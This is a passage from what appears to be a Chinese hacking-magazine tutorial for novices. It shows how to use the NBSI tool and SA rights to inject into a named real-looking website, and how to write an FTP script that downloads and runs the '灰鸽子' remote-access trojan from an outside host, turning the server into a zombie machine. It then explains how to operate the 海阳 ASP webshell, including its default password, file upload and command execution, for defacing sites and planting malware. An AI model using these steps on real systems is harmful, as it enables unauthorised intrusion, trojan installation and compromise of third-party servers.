

图15

## 4 NBSI、SA 权限的妙用

上面我们举的是遇到 DB_OWNER 权限时入侵的实例，但是有时候我们得到的是 SA 权限注入点，这时候入侵就会变得非常简单了！

把注入点填到 NBSI 的“注入地址”中，`http://www.mol.org.cn/news/NewsList.asp?newsid=4230&boardid=14`，点击“检测”，检测结果如图16所示。提示我们数据库类型是 SQL，还有数据库名称、当前连接用户和权限等信息。刚才我们已经介绍过了，SA 权限是可以执行任意命令的，所以说遇到 SA 权限我们基本上就得到主机系统权限，剩下的就是怎么把它变成自己的肉鸡了。



图16

> **小提示**
>
> SA 是 SQL Server 默认自带的最高权限用户，不过在某些简单设置下也可能使执行命令失效，也可以将它的权限降低。有些菜鸟遇到 SA 却不能执行命令或别的操作时，最好先换一个思路再想办法解决这种“难题”。

切换到“NBCommander”（执行命令）选项，把注入地址的注入类型填好，勾选“回显”，我们先来看看能不能执行命令，输入 `dir C:\`，点“执行”，显示成功执行返回的信息，如图17。下面看一下数据库服务器和网站服务器是不是在同一台主机上，这是很关键的！



图17

## 菜鸟学堂

> 小知识——数据库和网站分离

有的网站会单独使用一台服务器做数据库服务器……（提示数据库账号权限与网站权限关系）

在 NBSI 里执行 `ipconfig /all` 可以看到这台数据库服务器的 IP 信息，然后我们在本地 CMD 里输入 `ping www.mol.org.cn`，看得到的 IP 地址是否与数据库服务器的 IP 地址相同……





首先确认数据库服务器能否连接外网，如果连接不了，我们只能望站兴叹。在 NBSI 里执行 `ping www.163.com`，结果成功 ping 通，证明这个数据库服务器可以正常连接外网。

下面就让肉鸡登录到我的 FTP 空间，把我们事先配置好的“灰鸽子”传上去。再说，在 NBSI 里面依次执行以下命令：

```txt
echo open www.musibool.com >ftp.txt
echo ****** >>ftp.txt
echo ****** >>ftp.txt
echo get /htdocs/qq1.exe >>ftp.txt
echo bye >>ftp.txt
```

然后在 NBSI 里继续输入 `type ftp.txt`，检查生成的 ftp.txt 是否正确，如图20。



在 NBSI 里执行 `ftp -s:ftp.txt`，完成后继续在 NBSI 执行 `start qq1.exe`，一会儿我们的小鸡就乖乖地来报道了。

> “我们在具体的入侵过程中要灵活运用，充分发挥各种工具的特长，多种工具组合才能发挥出最大的……”

（文章中涉及到的明小D注入工具、NBSI、HDSI、GetWebShell、目录导航者已收录到光盘中）

## 隐藏在网站中的神秘身影——ASP木马小档案



早早来到菜鸟学堂的毒药老师对着讲堂下的小菜说道：“同学们，上节课教了大家工具的使用，回去后是不是都得到了很多的 webshell 啊……”

“毒药老师，我们得到了好多传说中的 webshell，可是对着 webshell 的登录框，我们不知道该干啥呀？”  
“毒药老师，我弄上去的 webshell 怎么也访问不了，有人说是被杀毒软件给干掉了，能不能整点不被杀的啊！”

课堂下的小菜们七嘴八舌……“其实上节课我们说的 webshell 仅仅是 webshell 中的一部分（ASP 木马）。webshell 还包括 PHP 木马、JSP 木马、CGI 木马等等……下面我就给大家讲点 ASP 木马的知识吧……”

> ASP木马小档案
>
> - 原名：ASP木马
> - 代表作：海阳顶端ASP木马、北关奶牛ASP木马、旁注网站小助手（diy.asp v5）
> - 爱好：黑站、挂机之类
> - 家族简介：包含 ASP/PHP/JSP/CGI 等 webshell……

## 一、海阳顶端ASP木马2006

需要 IIS 环境来运行 ASP 木马。把海阳顶端 ASP 木马放到我们的网站目录（`c:\inetpub\wwwroot`）下，命名为 `2006.asp`。在浏览器里面访问 ASP 木马地址 `http://192.168.0.250/2006.asp`，就会出现登录界面了，如图1。



海阳 ASP 木马是目前功能最完善的 ASP 木马之一，深受我们的喜爱。可是面对这个登录界面我们要输入什么样的密码才能让它芝麻开门呢？它又到底可以为我们做什么呢？

#### 1. 修改登录密码

我们的 webshell 当然不想和别人分享，为此需要设置一个强壮的密码。使用记事本打开海阳 ASP 木马的主文件（本例中就是 `2006.asp`），来到图2所示的地方，在“管理密码”处设置好我们的密码，然后保存，密码就设置好了（要在本地设置好了，再把它上传到目标网站上或者 IIS 目录里）。



回到登录界面输入我们设置的密码（不做任何设置的话，默认是 `lcxMarcos`），成功进去后就会看到海阳 ASP 木马的“功能模块列表”了，如图3。



#### 2. 系统服务信息

这项功能是用来查看服务器上面开了哪些服务的，对于我们了解服务器的信息有很大作用。例如查看服务器有没有开启终端服务（也就是我们常说的3389），可以查找“TermService”，如图4。可以看到服务名称、启动类型、运行状态、服务描述、文件路径及参数等很多详细的信息（如果管理员将 workstation 服务禁用了，ASP 木马就没法查看到服务的相关信息了）。



#### 3. 服务器相关数据

通过这项功能我们可以了解服务器的系统磁盘、站点文件夹、终端端口及自动登录等信息，如图5。如果遇到有个管理员偷懒，为了让服务器每次启动后不必输入密码就自动登录，把用户名和密码的信息写在了注册表里，我们就可以捡一个天大的便宜喽！



#### 4. 服务器组件探针

这项功能是用来查看服务器的组件支持情况，如图6。“√”表示服务器支持该组件，否则为不支持。我们比较关心的是 “Scripting.FileSystemObject（FSO 组件）”，这是用于读写文件的组件，和 “WScript.Shell”，这是用于执行命令的组件。



#### 5. FSO 文件浏览操作器

通过 FSO 文件浏览操作器我们可以方便地操作网站上的文件，如图7。

在“盘符”处选择下拉菜单下的“/”，就会看到海阳木马下的所有文件了。通过上面一排人性化的按钮可以很方便地操作目录下的文件。“编辑”“删除”等等功能实在是黑站挂马“必备良药”。

单击“上传”会打开上传文件的对话框，通过“浏览”选择本地要上传的文件，“保存为”为我们上传后的文件在服务器上的路径，如图8。





#### 6. WScript.Shell 程序运行器

这个功能非常实用，我们可以在 webshell 的环境中轻易地执行命令，例如 `net user`、`net start`、`netstat -an` 等等。前提是“WScript.Shell”组件没有被禁用，如图9。在“命令/参数”填上要执行的命令，单击“运行”就可以查看到结果了。如果有时不能执行命令，提示“拒绝访问”（Windows 2003 系统默认就是这样），我们可以尝试自己上传一个 `cmd.exe` 到某目录或网站根目录，然后在“路径”处填写上传的 `cmd.exe` 所在路径，在“命令/参数”填上我们要执行的命令。

